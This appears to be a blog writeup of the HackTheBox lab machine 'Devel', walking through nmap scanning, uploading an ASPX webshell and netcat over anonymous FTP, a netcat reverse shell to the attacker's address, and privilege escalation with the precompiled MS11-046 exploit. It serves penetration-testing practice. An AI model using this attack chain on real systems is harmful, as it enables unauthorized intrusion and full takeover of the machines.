 ```yaml
---
layout: post
title:  "HackTheBox - Devel Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Devel" (10.10.10.5) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As usual we're going to start off with our two nmap scans, a full TCP scan using `nmap -sV -sC -p- 10.10.10.5` and `nmap -sU -p- 10.10.10.5` in this case, we only returned ports open on TCP so we're going to look at that now.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 16:59 BST
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see we've got two ports FTP & HTTP, FTP stands out right away because NMAP has confirmed for us that Anonymous login is allowed, that is a severe miss configuration which we can take advantage of. It even looks like the web server root is also the FTP server root, this is another sysadmin fail. We'll login to that in just a few moments, but first our web server appears to be running IIS 7.5, normally I would look for some low-hanging exploits however, given that the FTP root is the same as the web-server root, and we know that it's running ASP.NET, we're not going to go for that as I think there will be an easier path.

### FTP & HTTP

Upon logging into the FTP server we can see the same files as per the NMAP scan, and by visiting the site on HTTP we can confirm that the web root is the same as the FTP root so we're going to try and upload an ASPX shell, luckily for us there is one built into Kali.

```
ftp> put /usr/share/webshells/aspx/cmdasp.aspx cmd.aspx
local: /usr/share/webshells/aspx/cmdasp.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (200.5416 kB/s)
```

On port 80, let's try and visit this page and see what happens, if we look at the screenshot below, we've got a command box, that's good! That means our webshell uploaded correctly as expected.

![asp web-shell](LinxzFade.github.io\assets\images\2019-05-25-Devel\Screenshot-2019-5-25.png)

Now that we know that works, lets try and use this to execute a netcat.exe, we know that we can upload and it's going into the web root folder so this should allow us to leverage this in order to get a reverse shell on the device.

## User Exploitation

Let's put netcat.exe on the device using FTP. It's important to note that we do need to set the FTP transfer mode to binary, else netcat is not going to execute and we'll get an error when trying to execute the file. The webserver was by default using ASCII mode, in general we only want to use ASCII mode for transferring things such as text files and the like, as we're trying to execute something, we switch to binary mode. You can verify the transfer mode the server is using over FTP by using the `type` in our case we are returned `Using ascii mode to transfer files.` hence why we changed it to binary mode by typing `binary`

```
ftp> binary
200 Type set to I.
ftp> put /usr/share/windows-binaries/nc.exe nc.exe
local: /usr/share/windows-binaries/nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.09 secs (639.0480 kB/s)
```

We didn't actually test our webshell yet so let's run a simple `whoami` in the shell and press execute, as you can see in the below screenshot `iis apppool\web` is returned so we know that our webshell for sure works and we know that the webserver is not running as system at least (that'd be a major sysadmin fail).

![asp webshell execution](LinxzFade.github.io/assets/images/2019-05-25-Devel/webshell-execution.png)

So as you can see, we've got basic execution, now what we're going to do is get the web server to execute netcat for our reverse shell, let's first set a listener up on port 80 with `nc -nvlp 80`. We're now going to use our remote code execution to find the full path for the netcat.exe that we uploaded. We can do this using the `dir` command - `dir /s/b C:\ | find /i "nc.exe` it turns out it is located at `C:\inetpub\wwwroot\nc.exe` in order to execute this then we're just going to run `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.12 80` which will give us a connection back to our listener, we've now got a login. I did initially try and get to the `user.txt` flag however because I was only a service account I did not have access this meant we need to priv-esc.

## Privilege Escalation

So, we're on the device, let's work on the priv-esc - the first thing we should run as soon as we access a Windows system is `systeminfo` it's going to give us the OS version which is very powerful as we can then start to search for priv-esc flaws in the operating system.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/5/2019, 8:07:50 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 3/7/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 683 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.497 MB
Virtual Memory: In Use:    550 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

In the codeblock above, right at the top you can see the "OS Version" as you see for this box the OS version is "6.1.7600 Build 7600", let's do some Google-fu and append "privilege escalation" on the end. The very first result we get is [MS11-046 on ExploitDB](https://www.exploit-db.com/exploits/40564), let's check out this exploit. As you can see commented out at the top of the exploit, the author has listed the vulnerable OS's and Windows 7 X86 is listed, we see no mention of enterprise but we're going to assume that our target is vulnerable to this exploit.

To save myself a headache of compiling this exploit on Linux (because we will get errors on Linux due to some of the includes) we're going to take advantage of a repository put together by [Abatchy17 called "WindowsExploits"](https://github.com/abatchy17/WindowsExploits) it's no longer being updated but as we can see, our exploit MS11-046 is in there pre-compiled so let's `git clone` the repo and then use our anonymous FTP login to upload the file to the server once again making sure the type is set to binary else the file won't execute.

```
ftp> binary
200 Type set to I.
ftp> 
ftp> put /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe MS11-046.exe
local: /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe remote: MS11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
112815 bytes sent in 0.08 secs (1.3597 MB/s)
ftp> 
```

Now we've got the exploit on the system all we need to do is execute it, simple right? Yup! If you don't know where the file is you can take advantage of dir again however we know that the path is `C:\inetpub\wwwroot\` anyway so let's execute the file by doing `C:\inetpub\wwwroot\MS11-046.exe` and after about 10 seconds we're going to see the `System32` prompt, let's do a `whoami` to verify and we should see `nt authority\system`. That's it! That's our priv-esc done so now we can go ahead and get the user + root flag and we're done.

Thank you for reading another writeup, this is an OSCP like box so this is great practice for that! In another post we will cover how MS11-046 works a little more because it's for sure a priv-esc exploit we want to keep in mind!
